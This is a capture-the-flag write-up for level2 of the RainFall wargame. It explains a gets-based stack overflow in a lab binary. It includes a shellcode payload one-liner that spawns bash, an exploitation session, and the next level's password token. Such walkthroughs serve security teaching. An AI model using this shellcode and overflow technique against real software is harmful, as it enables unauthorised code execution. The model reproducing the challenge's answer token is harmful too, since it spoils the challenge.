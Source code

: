 # level2

## Header

```bash
ssh level2@192.168.64.9 -p 4242
...
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
```

<hr>

## Solution

From the inspecting disassembled code, we can understand that we can use vulnerable `gets` to overwrite return address.

What we'll do is place some shellcode into our buffer and overwrite `p`'s return address to jmp right to the shellcode.

First, we need to upload payload:

```bash
scp -P 4242 ./level2/payload.py level2@192.168.64.9:/tmp/payload2.py

python /tmp/payload2.py
```

or just use this:

```bash
python -c 'print "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "A" * 47 + "\x08\x04\xa0\x08"[::-1]' > /tmp/payload2
```

This will produce payload file that should be used to exploit the binary:

```bash
level2@RainFall:~$ (cat /tmp/payload2; cat) | ./level2
pwd
/home/user/level2
cd ../level3
ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
cat .pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

## References

- [This is why you should pass payload to binary like that](https://security.stackexchange.com/questions/155832/system-bin-sh-exits-without-waiting-for-user-input-overthewire-narnia0-chal)

- [Used shellcode](https://shell-storm.org/shellcode/files/shellcode-606.html)
